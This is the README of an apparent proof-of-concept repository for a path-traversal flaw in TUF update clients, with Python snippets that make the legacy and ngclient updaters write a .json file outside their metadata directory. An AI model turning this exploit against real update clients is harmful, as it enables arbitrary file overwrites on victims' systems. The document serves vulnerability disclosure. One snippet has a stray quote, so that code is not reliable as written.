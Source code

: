 # TUF client metadata path-traversal proof of concept

This repository will fool both legacy updater and ngclient to write 
(overwrite) a file outside of the client metadata store when
`get_one_valid_targetinfo()` is called. For this specific example, the
file will be written one level above the metadata directory but likely
any arbitrary filepath (with .json extension) is possible.

### Examples assuming the repository root is hosted at `http://localhost:8000/`:

#### Legacy Updater
```python
# Directories ./metadata/current/ and ./metadata/previous/ must exist.
# Initial root must be in ./metadata/current/root.json.

import tuf.settings
from tuf.client.updater import Updater

tuf.settings.repositories_directory = "./"
repo_mirrors = {
    "mirror1": {
        "url_prefix": "http://localhost:8000",  "metadata_path": "", "targets_path": ""
    }
}
updater = Updater("", repo_mirrors)
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./metadata/current/ but ./metadata/ now contains
# path-traversal-test.json
```

#### ngclient Updater

```python
# Initial root must be in ./root.json.

from tuf.ngclient import Updater
updater = Updater("./", ""http://localhost:8000/", "http://localhost:8000/")
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./ but ../ now contains path-traversal-test.json
```
